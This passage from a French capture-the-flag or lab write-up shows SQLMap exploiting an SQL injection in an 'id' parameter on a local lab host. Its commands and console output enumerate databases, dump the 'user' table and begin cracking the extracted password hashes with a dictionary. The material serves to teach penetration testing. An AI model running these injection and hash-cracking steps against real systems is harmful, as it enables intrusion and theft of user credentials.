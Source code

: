 ```console
[12:35:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL >= 5.0.12
[12:35:46] [ERROR] user quit
```

En quelques secondes à peine, SQLMap a détecté qu'il s'agit d'une base de données MySQL et que le troisième paramètre testé ```id``` est vulnérable aux injections SQL. Après plusieurs tentatives, SQLMap récupère les tables ```--tables``` ainsi que les colonnes ```--columns``` présentes dans chaque base de données trouvée ```--dbs```, et tant qu'à faire, autant récupérer tout le contenu de la base de données avec ```--dump-all```.

```console
root@blinils:~# sqlmap -u "http://192.168.15.131/index.html?page=blog&title=Blog&id=2" --dbms=MySQL --dbs -v0

--snip--
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL >= 5.0.0
available databases [5]:
[*] ehks
[*] information_schema
[*] mysql
[*] roundcubemail
[*] test
--snip--
```

La table ehks était déjà connue grâce au fichier ```db.sql``` trouvé auparavant. C'est parti pour le dump des données !

```console
root@blinils:~# sqlmap -u "http://192.168.15.131/index.html?page=blog&title=Blog&id=2" --dbms=MySQL -D ehks --tables
--snip--
[22:34:56] [INFO] fetching tables for database: 'ehks'
Database: ehks
[3 tables]
+---------+
| user    |
| blog    |
| comment |
+---------+
--snip--

root@blinils:~# sqlmap -u "http://192.168.15.131/index.html?page=blog&title=Blog&id=2" --dbms=MySQL --dump -D ehks -T user
--snip--
[12:13:14] [INFO] fetching columns for table 'user' in database 'ehks'
[12:13:14] [INFO] fetching entries for table 'user' in database 'ehks'
[12:13:14] [INFO] recognized possible password hashes in column 'user_pass'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[12:13:14] [INFO] writing hashes to a temporary file '/tmp/sqlmapCZXRQu2095/sqlmaphashes-UM_AsC.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[12:13:14] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[12:13:14] [INFO] using default dictionary
```